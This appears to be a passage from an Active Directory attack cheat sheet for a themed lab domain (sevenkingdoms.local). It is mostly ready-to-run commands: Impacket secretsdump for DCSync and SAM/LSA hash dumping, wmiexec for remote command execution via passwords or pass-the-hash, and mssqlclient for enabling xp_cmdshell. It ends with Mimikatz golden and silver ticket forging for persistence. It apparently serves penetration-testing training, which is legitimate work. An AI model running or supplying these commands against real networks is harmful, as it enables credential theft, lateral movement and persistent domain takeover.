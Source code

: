 ### Impacket

**secretsdump.py**
```bash
# Dump domain hashes via DCSync
secretsdump.py sevenkingdoms/cersei.lannister:password@kingslanding.sevenkingdoms.local

# Dump with NTLM hash
secretsdump.py -hashes aad3b435b51404eeaad3b435b51404ee:hash sevenkingdoms/cersei.lannister@kingslanding.sevenkingdoms.local

# Dump local SAM/LSA
secretsdump.py administrator:password@192.168.56.10 -outputfile dumped_hashes
```

**wmiexec.py**
```bash
# Execute commands via WMI
wmiexec.py sevenkingdoms/cersei.lannister:password@winterfell.north.sevenkingdoms.local
wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:hash sevenkingdoms/administrator@castelblack

# Execute single command
wmiexec.py sevenkingdoms/administrator:password@castelblack "whoami"
```

**mssqlclient.py**
```bash
# Connect to MSSQL server
mssqlclient.py sevenkingdoms/jon.snow:password@castelblack -windows-auth

# Enable xp_cmdshell
SQL> enable_xp_cmdshell

# Execute OS commands
SQL> xp_cmdshell whoami

# Query linked servers
SQL> SELECT * FROM sys.servers
SQL> EXEC ('SELECT @@version') AT [BRAAVOS]
```

---

## Persistence

### Mimikatz Golden/Silver Tickets
```
# Golden Ticket (requires krbtgt hash)
kerberos::golden /user:Administrator /domain:sevenkingdoms.local /sid:S-1-5-21-... /krbtgt:hash /ptt

# Silver Ticket (requires service hash)  
kerberos::golden /user:Administrator /domain:sevenkingdoms.local /sid:S-1-5-21-... /target:castelblack /service:cifs /rc4:hash /ptt
```
